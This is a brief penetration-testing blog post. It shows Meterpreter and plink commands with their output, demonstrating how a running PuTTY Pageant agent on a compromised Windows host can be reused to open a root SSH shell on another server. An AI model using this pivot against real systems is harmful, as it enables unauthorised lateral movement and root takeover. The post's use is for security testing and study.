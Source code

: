 ---
author: mubix
comments: true
date: 2012-08-28 15:42:03+00:00
layout: post
title: Free Shells with Plink and Pageant
categories:
- metasploit
- meterpreter
- putty
- ssh
---

Watching [Egypt](http://twitter.com/egyp7)’s talk at DEFCON 20 he mentioned the ability to jump on on a system when pageant (puTTY’s ssh-agent equivalent) is running. So I wanted to figure out the best way to get this going. Here is what I came up with:

```    
meterpreter > run enum_putty
[*] Putty Installed for [["Administrator"]]
[*] Saved SSH Server Public Keys:
[*]     rsa2@22:172.16.10.150
[*] Session corp_webserver:
[*]     Protocol: SSH
[*]     Hostname: 172.16.10.150
[*]     Username: root
[*]     Public Key:
meterpreter >
```

Awesome, this guy runs as root and we have the IP address. But it doesn’t have any public keys listed. That’s ok because Pageant is running. 

```   
meterpreter > shell
Process 3364 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Program Files\PuTTY>plink -agent root@172.16.10.150
plink -agent root@172.16.10.150
Welcome to Ubuntu 12.04 LTS (GNU/Linux 2.6.39.1-34 i686)
No mail.
Last login: Tue Aug 28 14:15:18 2012 from 172.16.10.100
root@172.16.10.150:~]$ id
uid=0(root) gid=0(root) groups=0(root)
```

w00t! An extra shell for free!!

![](/images/postimages/201208_freeshells_1.png)
